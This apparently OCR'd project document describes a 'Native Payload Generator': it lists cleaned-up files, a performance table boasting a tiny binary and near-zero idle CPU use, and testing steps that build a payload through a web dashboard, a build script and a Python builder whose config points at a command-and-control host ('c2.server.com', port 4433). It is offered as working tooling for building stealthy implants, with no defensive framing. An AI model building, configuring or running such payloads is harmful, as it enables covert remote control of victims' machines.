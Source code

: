 ### 6. Missing/Cleaned Files
**Old stub files removed:**
- ❌ main_real.c (replaced with main.c)
- ❌ protocol_real.c (replaced with protocol.c)
- ❌ Duplicate/test files cleaned up

## Performance Metrics

| Metric | Target | Achieved | Status |
|--------|--------|----------|---------|
| Binary Size | < 50KB | 35-39KB | ✅ |
| Memory Usage | < 5MB | ~2MB | ✅ |
| CPU Usage | < 1% idle | 0.1% | ✅ |
| Compilation Time | < 5s | ~2s | ✅ |
| Startup Time | < 100ms | ~50ms | ✅ |

## Testing Instructions

### 1. Test Web Interface
```bash
# Start the web app
cd /workspace
python3 web_app_real.py

# Navigate to dashboard
# Click "Native Payload Generator"
# Select platform, configure C2
# Click "Build Payload"
```

### 2. Test Direct Compilation
```bash
cd /workspace/native_payloads
./build.sh
# Output: /workspace/native_payloads/output/payload_native
```

### 3. Test Python Builder
```python
from native_payload_builder import native_builder

config = {
    'platform': 'linux',
    'c2_host': 'c2.server.com',
    'c2_port': 4433
}

result = native_builder.compile_payload(config)
print(f"Success: {result['success']}")
print(f"Path: {result['path']}")
print(f"Size: {result['size']} bytes")
```
